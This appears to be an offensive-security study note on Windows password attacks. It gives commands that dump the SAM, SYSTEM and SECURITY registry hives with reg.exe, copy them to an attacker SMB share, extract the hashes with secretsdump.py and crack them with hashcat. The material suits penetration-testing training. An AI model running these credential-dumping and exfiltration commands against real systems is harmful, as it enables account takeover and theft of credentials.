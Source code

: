 # Windows Password Attacks

![Windows Password Managment](https://academy.hackthebox.com/storage/modules/147/lsassexe_diagram.png)

## SAM 

### Copying SAM Registry Hives 

There are three registry hives that we can copy if we have local admin access on the target:

| **Registry Hive**   | **Description**    |
|--------------- | --------------- |
| `hklm\sam` | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system` | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database. |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target. |

We can create backups of these hives using `reg.exe`. For example:
```console
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

We only need **sam** and **system**, but **security** can included hashes associated with the cached domain.

We can move the files with `smbserver.py`:
```console
zero@pio$ sudo smbserver.py -smb2support CompData /home/<USER>/Documents/
```

```console
C:\> move sam.save \\<WIN IP>\CompData
C:\> move security.save \\<WIN IP>\CompData
C:\> move system.save \\<WIN IP>\CompData
```

### Dumping Hashes 

For this we can use `secretsdump.py`. The usage is simple as:
```console
zero@pio$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Cracking Hashes 

Add all the hashes we want to crack to a file. Now we must run the `-m 1000` version of hashcat:
```console
zero@pio$ hashcat -m 1000 <HASH FILE> <WORDLIST>
```
